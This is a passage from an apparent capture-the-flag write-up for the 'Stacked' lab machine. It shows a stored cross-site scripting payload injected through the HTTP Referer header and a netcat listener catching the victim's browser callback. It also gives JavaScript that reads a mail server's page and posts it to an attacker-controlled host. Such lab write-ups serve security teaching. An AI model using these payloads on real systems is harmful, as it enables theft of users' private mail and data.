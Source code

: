 ```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script src="http://10.10.14.61/tgihf.js"></script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

Its `User-Agent` indicates it is Firefox. It was referred by `http://mail.stacked.htb/read-mail.php?id=2`.

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 39598
GET /tgihf.js HTTP/1.1
Host: 10.10.14.61
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Connection: keep-alive
```

### Enumeration of  Mail Messages

Leverage the XSS opportunity to have the user retrieve the home page of `http://mail.stacked.htb` and send it to an attacker-controlled endpoint.

Serve `tgihf.js`:

```javascript
let target = "http://mail.stacked.htb";
fetch(target).then(response => {
   response.text().then(data => {
      const home = "http://10.10.14.61:8000";
      fetch(home, {
         method: "POST",
         body: data
      })
   })
})
```
